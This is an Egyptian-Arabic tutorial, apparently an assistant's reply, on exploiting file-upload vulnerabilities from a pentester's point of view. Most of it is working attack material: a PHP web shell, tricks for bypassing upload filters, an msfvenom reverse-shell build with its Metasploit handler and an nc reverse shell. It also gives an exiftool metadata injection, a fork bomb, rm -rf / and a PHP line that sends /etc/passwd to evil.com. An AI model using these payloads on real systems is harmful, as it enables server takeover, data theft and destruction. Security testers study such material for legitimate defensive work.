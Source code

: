 تمام، هشرحلك موضوع "Uploading and Executing Malicious Files" بعمق كـ Pentester، مع تركيز على الجانب العملي والأكواد والأوامر، وهحط الخلاصة بالعامية المصرية بعد كل جزء، وبعدين هعدلك كل السيناريوهات الممكنة للاستغلال.

---

### **1. مفهوم Uploading and Executing Malicious Files بعمق**
المقصود هنا إنك كـ Pentester بتحاول ترفع ملف "خبيث" (يعني فيه كود أو برنامج مضر) على سيرفر أو نظام، وبعدين تخليه يتنفذ (يتعمل Run) عشان تحقق هدفك، زي التحكم في السيرفر أو سرقة بيانات. المشكلة دي بتحصل لما النظام بيسمحلك ترفع ملفات من غير ما يفحصها كويس أو يمنع تنفيذها.

**النقاط الأساسية:**
- **Upload:** عملية رفع الملف (زي صورة، PDF، أو سكربت) للسيرفر.
- **Execution:** لما الملف ده يتنفذ ككود أو برنامج على السيرفر أو جهاز الضحية.
- **الثغرة:** لو الموقع ما عندوش فلترة قوية على نوع الملفات أو بيسمح بتنفيذها من غير ما يقفل الميزة دي.

**خلاصة بالعامية:**  
يعني لو الموقع بيخليك ترفع أي حاجة من غير ما يقول "استنى شوية نشوف دي ايه"، وكمان بيفتحها أو يشتغلها بنفسه، يبقى إنت ممكن ترفع حاجة تخربله الدنيا.

---

### **2. الجانب العملي: ازاي بنستغل الثغرة دي**
هنشرح الخطوات والطرق الشائعة مع أمثلة عملية:

#### **أ. رفع ملفات سكربت (مثل PHP Shell)**
كتير من المواقع بتسمح برفع ملفات (زي صور البروفايل أو المرفقات)، لو ما بتفحصش امتداد الملف أو بتسمح بتنفيذه، بنقدر نرفع شيل.

- **مثال عملي:**
  اعمل ملف PHP بسيط كده (اسمه مثلاً `shell.php`):
  ```
  <?php system($_GET['cmd']); ?>
  ```
  ده ملف لما ترفعه وتوصله بـ URL زي:
  ```
  http://target.com/uploads/shell.php?cmd=whoami
  ```
  هيرجعلك اسم المستخدم اللي السيرفر شغال بيه.

- **خطوات الاستغلال:**
  1. ابحث عن مكان رفع ملفات في الموقع (زي رفع صورة بروفايل).
  2. جرب ترفع الملف العادي (`shell.php`).
  3. لو الموقع بيرفض الـ `.php`، غير الامتداد لـ `.php5` أو `.phtml` أو حتى `.php.jpg` (Double Extension).
  4. استخدم أداة زي **Burp Suite** عشان تعدل الـ MIME Type في الـ Request لـ `application/octet-stream` بدل `image/jpeg`.
  5. لو اتقبل، افتح اللينك اللي الملف اترفع عليه وجرب أوامر.

- **أمر عملي كـ Pentester:**
  لو الملف اترفع على `http://target.com/uploads/shell.php`， جرب:
  ```
  http://target.com/uploads/shell.php?cmd=dir
  ```
  لو رجعلك ملفات السيرفر، يبقى الثغرة شغالة.

**خلاصة بالعامية:**  
لو الموقع سابك ترفع سكربت ونفذه، يبقى كأنك حطيت مفتاح الباب في جيبك وتقدر تعمل أي حاجة.

#### **ب. استغلال فلاتر ضعيفة (Bypass File Upload Restrictions)**
كتير من المواقع بتحط فلاتر (زي "الملف لازم يكون صورة بس")، لكن الفلاتر دي ممكن تتخطى.

- **مثال عملي:**
  لو الموقع بيقبل بس `.jpg`، اعمل ملف كده (اسمه `evil.jpg`):
  ```
  <?php system('whoami'); ?>
  ```
  وعدل الـ HTTP Request في Burp Suite:
  - غير الـ Content-Type لـ `image/jpeg`.
  - أو أضف Null Byte في الاسم: `evil.jpg%00.php`.

- **اختبار عملي:**
  جرب ترفع ملف بامتدادات مختلفة:
  ```
  shell.php
  shell.php5
  shell.PhP (Case Sensitivity)
  shell.jpg.php
  ```
  لو الموقع بيسمح بتنفيذ أي حاجة من دول، هتبقى ثغرة.

**خلاصة بالعامية:**  
الموقع لو بيقولك "ارفع صور بس" بس ما بيفحصش كويس، ممكن تلبسه صورة مزيفة جواها سكربت ويشتغل عادي.

#### **ج. رفع ملفات تنفيذية (Executable Files)**
لو السيرفر بيسمح برفع ملفات زي `.exe` أو شيل عكسي وينفذها، بنقدر نتحكم كامل.

- **مثال عملي:**
  اعمل شيل عكسي بـ **msfvenom**:
  ```
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe -o evil.exe
  ```
  - ارفعه على الموقع لو لقيت حقل ملفات مفتوح.
  - نفذه يدويًا لو ليك وصول (مثلاً عن طريق Command Injection).
  - استمع على الـ **Metasploit**:
  ```
  use exploit/multi/handler
  set PAYLOAD windows/meterpreter/reverse_tcp
  set LHOST 10.10.10.10
  set LPORT 4444
  exploit
  ```

- **أمر عملي كـ Pentester:**
  لو الموقع بيسمح برفع `.exe`، جرب ترفع ملف بسيط زي `calc.exe` وشوف لو اتفتحت الآلة الحاسبة على السيرفر.

**خلاصة بالعامية:**  
لو الموقع بيخليك ترفع برنامج ويشتغله، يبقى كأنك قولتله "خد البندقية دي واضرب نفسك بيها".

#### **د. استغلال ملفات غير متوقعة (PDFs, Images)**
حتى الملفات اللي المفروض آمنة زي الصور أو PDF ممكن تكون فيها ثغرات.

- **مثال عملي:**
  اعمل صورة مضروبة بكود PHP داخلها:
  ```
  exiftool -Comment="<?php system('whoami'); ?>" image.jpg
  ```
  ارفعها، ولو السيرفر بينفذ الـ Metadata، هتشتغل.

- **اختبار عملي:**
  جرب تضيف كود JavaScript في PDF:
  ```
  app.alert("Hacked!");
  ```
  لو الموقع بيفتح الـ PDF في المتصفح من غير Sanitization، الكود هيتنفذ.

**خلاصة بالعامية:**  
حتى لو الموقع بيقولك "ارفع صورة أو PDF بس"، ممكن تخبي فيهم حاجة خبيثة ويشتغلوا عادي لو ما فيش حماية.

---

### **3. سيناريوهات الاستغلال الممكنة كـ Pentester**
دلوقتي هعدلك كل الطرق اللي ممكن تستغل بيها الثغرة دي:

1. **Web Shell Upload:**
   - رفع شيل PHP (`<?php system($_GET['cmd']); ?>`) والتحكم في السيرفر.
   - استخدام أوامر زي `ls` أو `dir` أو حتى رفع شيل أكبر.

2. **Reverse Shell:**
   - رفع ملف `.php` أو `.exe` يفتح اتصال عكسي (`nc -e /bin/sh 10.10.10.10 4444`).
   - السيطرة الكاملة على السيرفر.

3. **Bypass Restrictions:**
   - استخدام Double Extensions (`shell.php.jpg`).
   - تغيير الـ MIME Type في الـ Request.
   - استخدام Null Byte (`shell.php%00.jpg`).

4. **Malicious Media:**
   - تضمين كود في صورة (`exiftool` مع PHP).
   - كود JavaScript في PDF أو Word يتنفذ لما يتفتح.

5. **Privilege Escalation:**
   - لو السيرفر بينفذ الملف بصلاحيات عالية، ممكن ترفع سكربت يعدل ملفات النظام (زي `/etc/passwd`).

6. **DDoS أو تدمير:**
   - رفع ملف يعمل Fork Bomb (`:(){ :|:& };:` في Linux) يعلق السيرفر.
   - أو ملف يحذف كل حاجة (`rm -rf /`).

7. **Data Exfiltration:**
   - رفع سكربت يسرق بيانات ويبعتها ليك:
   ```
   <?php file_get_contents('http://evil.com/log.php?data='.base64_encode(file_get_contents('/etc/passwd'))); ?>
   ```

---

### **نصيحة كـ Pentester:**
- استخدم **Burp Suite** عشان تعدل الـ Requests وتجرب امتدادات مختلفة.
- جرب كل أنواع الملفات (PHP, ASP, EXE, JPG, PDF) وشوف ايه اللي بيعدي.
- لو لقيت الملف اترفع بس ما بيتنفذش، ابحث عن طريقة ثانية (زي Command Injection) عشان تفعله.
- دايمًا احفظ اللينك اللي الملف اترفع عليه وجرب تتصل بيه.

لو عايز تفاصيل أكتر عن أي سيناريو أو أداة، قوللي!